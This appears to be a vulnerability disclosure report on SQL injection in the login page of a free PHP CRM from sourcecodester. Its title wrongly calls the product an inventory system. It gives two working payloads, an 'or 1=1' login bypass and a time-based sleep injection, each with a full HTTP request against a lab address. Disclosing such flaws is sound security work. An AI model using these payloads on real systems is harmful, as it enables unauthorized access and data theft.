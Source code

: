 # Simple Inventory Management System by oretnom23 has SQL injection

BUG_Author: keecth

vendors: https://www.sourcecodester.com/php/15895/simple-customer-relationship-management-crm-system-using-php-free-source-coude.html

Vulnerability File: /php-scrm/login.php

Parameter "email" (POST), exists SQL injection vulnerability

Payload1: email=admin' or 1=1#&password=b&login=

```
POST /login.php HTTP/1.1
Host: 192.168.44.38:8890
Content-Length: 38
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.44.38:8890
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.44.38:8890/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=pvl1et2p8633oej125u0avedss
Connection: close

email=admin' or 1=1#&password=b&login=
```

Successfully logged in to the background(dashboard.php)

![image-20221202095720240](http://img.keecth.cn:55566/img/1669946240_ecd936c768adaf3e32e3d1ecf30f0686.png)

Payload2: email=a'%2b(select*from(select(sleep(20)))a)%2b'&pwd=b&login=

```
POST /login.php HTTP/1.1
Host: 192.168.44.38:8890
Content-Length: 61
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.44.38:8890
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.44.38:8890/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=pvl1et2p8633oej125u0avedss
Connection: close

email=a'%2b(select*from(select(sleep(20)))a)%2b'&pwd=b&login=
```

Response time is 20 seconds

![image-20221202100032345](http://img.keecth.cn:55566/img/1669946432_b17017ac17fed51966971d6ed1d2268b.png)